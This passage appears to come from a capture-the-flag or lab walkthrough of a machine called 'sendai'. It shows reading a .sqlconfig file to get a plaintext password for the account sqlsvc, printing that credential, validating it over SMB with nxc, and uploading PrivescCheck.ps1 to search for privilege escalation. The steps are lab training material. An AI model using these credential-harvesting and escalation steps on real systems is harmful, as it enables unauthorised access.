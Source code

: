 Now let’s see file content

```bash
cat .sqlconfig
```

![image.png](../images/sendai%2021.png)

> Notice that we got the password for the account sqlsvc
username: sqlsvc
password: SurenessBlob85
> 

Now let’s validate the password

```bash
nxc smb sendai.vl -u 'sqlsvc' -p 'SurenessBlob85'
```

![image.png](../images/sendai%2022.png)

As we see we have access to the user sqlsvc

Now let’s go back to the session of mgtsvc$ and try to search for privilege escalation

```bash
upload PrivescCheck.ps1
```

![image.png](../images/sendai%2023.png)

Now let’s run the script
